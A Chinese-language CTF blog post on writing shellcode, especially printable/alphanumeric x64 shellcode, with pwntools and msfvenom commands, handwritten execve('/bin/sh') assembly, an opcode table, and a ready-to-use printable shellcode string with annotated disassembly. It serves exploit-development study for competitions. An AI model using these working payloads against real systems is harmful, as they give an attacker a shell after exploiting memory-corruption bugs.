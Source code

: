 ```yaml
---
layout : post
author : wsxk
date : 2022-6-6
comments : true
title: "shellcode编写"
tags: [pwn]
---
```


国赛的时候一道一个要你写shellcode的题目，但是这个shellcode不是一般的shellcode，必须是可打印字符串的shellcode，有被恶心到。

于是想总结一下各自shellcode的编写技巧

- [自动生成shellcode（x32/x64）](#自动生成shellcodex32x64)
  - [metasploit alphanumeric/printable shellcode（x32）](#metasploit-alphanumericprintable-shellcodex32)
- [手写shellcode（x64）](#手写shellcodex64)
  - [alphanumeric/printable shellcode（x64）](#alphanumericprintable-shellcodex64)
- [reference](#reference)

# 自动生成shellcode（x32/x64）

自动生成shellcode可以利用pwntools里的shellcode生成工具。

``` python
from pwn import *
context.arch = 'amd64'  # 设定架构
shellcode = asm(shellcraft.sh()) #生成shellcode
```

但是这种生成的shellcode比较长，也无法满足一些特定shellcode的需求。所以我们需要手动编写

## metasploit alphanumeric/printable shellcode（x32）

[https://www.anquanke.com/post/id/85871](https://www.anquanke.com/post/id/85871)

可以用metasploit自动生成可打印的shellcode

    msfvenom -a x86 --platform linux -p linux/x86/exec CMD="sh" -e x86/alpha_mixed BufferRegister=ECX -f python

其中bufferregister这个选项是重要的，取决你的shellcode由那个寄存器调用。

# 手写shellcode（x64）

shellcode的原理都是通过系统调用进行 exec("/bin/sh")

系统调用可以参考下面的链接

[http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

``` python
from pwn import *
context.arch = 'amd64'
shellcode = '''
xor rdx,rdx;
push rdx;
mov rsi,rsp;
mov rax,0x68732f2f6e69622f;
push rax;
mov rdi,rsp;
mov rax,59;
syscall;
'''
shellcode = asm(shellcode)
```

## alphanumeric/printable shellcode（x64）

以下是一些可打印字符串对应的汇编指令代码

利用可打印字符串的核心思想是异或，通过异或得到我们想要的内容。

``` asm
0x50: push   rax
0x51: push   rcx
0x52: push   rdx
0x53: push   rbx
0x54: push   rsp
0x55: push   rbp
0x56: push   rsi
0x57: push   rdi
0x4150: push r8
0x4151: push r9
0x4152: push r10
0x4153: push r11
0x4154: push r12
0x4155: push r13
0x4156: push r14
0x4157: push r15

0x58: pop    rax
0x59: pop    rcx
0x5a: pop    rdx
0x4158: pop r8
0x4159: pop r9
0x415a: pop r10

0x34XX: xor al, imm8
0x35XXYY: xor ax, imm16
0x35XXYYZZWW: xor eax, imm32
0x6aXX: push imm8
0x68XXYYZZWW: push imm32
xor DWORD PTR [r64 + imm8], r32
```

这里列一个比较常用的shellcode

PPYh00AAX1A0hA004X1A4hA00AX1A8QX44Pj0X40PZPjAX4znoNDnRYZnCXA

含义

    /* from call rax */
    push rax /*可以根据调用的寄存器来更好前面2个字母*/
    push rax
    pop rcx

    /* XOR pop rsi, pop rdi, syscall */
    push 0x41413030
    pop rax
    xor DWORD PTR [rcx+0x30], eax

    /* XOR /bin/sh */
    push 0x34303041
    pop rax
    xor DWORD PTR [rcx+0x34], eax
    push 0x41303041
    pop rax
    xor DWORD PTR [rcx+0x38], eax

    /* rdi = &'/bin/sh' */
    push rcx
    pop rax
    xor al, 0x34
    push rax

    /* rdx = 0 */
    push 0x30
    pop rax
    xor al, 0x30
    push rax
    pop rdx

    push rax

    /* rax = 59 (SYS_execve) */
    push 0x41
    pop rax
    xor al, 0x7a

    /* pop rsi, pop rdi*/
    /* syscall */ 
    .byte 0x6e
    .byte 0x6f
    .byte 0x4e
    .byte 0x44

    /* /bin/sh */
    .byte 0x6e
    .byte 0x52
    .byte 0x59
    .byte 0x5a
    .byte 0x6e
    .byte 0x43
    .byte 0x5a
    .byte 0x41



# reference

[https://hama.hatenadiary.jp/entry/2017/04/04/190129](https://hama.hatenadiary.jp/entry/2017/04/04/190129)

[https://nuoye-blog.github.io/2020/05/09/dea90f48/](https://nuoye-blog.github.io/2020/05/09/dea90f48/)